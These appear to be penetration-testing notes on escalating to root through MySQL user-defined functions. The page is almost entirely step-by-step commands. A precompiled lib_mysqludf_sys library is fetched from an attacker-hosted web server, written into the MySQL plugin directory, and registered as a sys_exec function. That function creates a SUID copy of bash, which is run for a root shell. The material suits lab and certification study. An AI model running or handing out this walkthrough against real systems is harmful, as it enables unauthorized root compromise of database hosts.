

Precompiled Shared Library
This is like raptor_udf2.c but the shared library is already been compiled, both allow the creation of UDF in mysql(only if run as root)
3.We can find the pre compiled Shared Libraries for different architectures in https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql
◇ Linux 32 bit
◇ Linux 64 bit
1) We have to Download the shared lib_mysqludf_sys_XX.so
Attacker
attacker@kali:/# cd /var/www/html
attacker@kali:/# wget https://github.com/rapid7/metasploit-framework/raw/master/data/exploits/mysql/lib_mysqludf_sys_64.so
attacker@kali:/# python3 -m http.server 80 -d /var/www/html
Target
target@debian:~$ wget http://<attackerIP>/lib_mysqludf_sys_64.so
2) Connect to mysql
target@debian:~$ mysql -u root -p #press two times enter without password
mysql>
3) Load shared library in mysql and create the UDF do_system
mysql> use mysql;
mysql> create table foo(line blob);
#load content of the shared object
mysql> insert into foo values(load_file('<PATH>/lib_mysqludf_sys_64.so'));
#for older versions of mysql the the location of the dumpfile
#will be '/usr/lib/raptor_udf2.so'.To be sure about that we can execute:
#SHOW VARIABLES LIKE 'plugin_dir';
#We have the permissions to do that because mysql is running as root
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';
#creation of a mysql function which use the shared object
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so'; #in raptor_udf2.c the fuction is named do_system
4) creation of a shell with root permissions with chmod
mysql> select sys_exec('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash'); ##in raptor_udf2.c the fuction is named do_system
mysql> exit

5) Execute the rootshell in privileged mode as explained in SUID shells
target@debian:~$ /tmp/rootbash -p

-p → Turn on privileged mode. In this mode bash keep the effective ID it is launched with the SUID bit, instead of the effective ID of the actual user.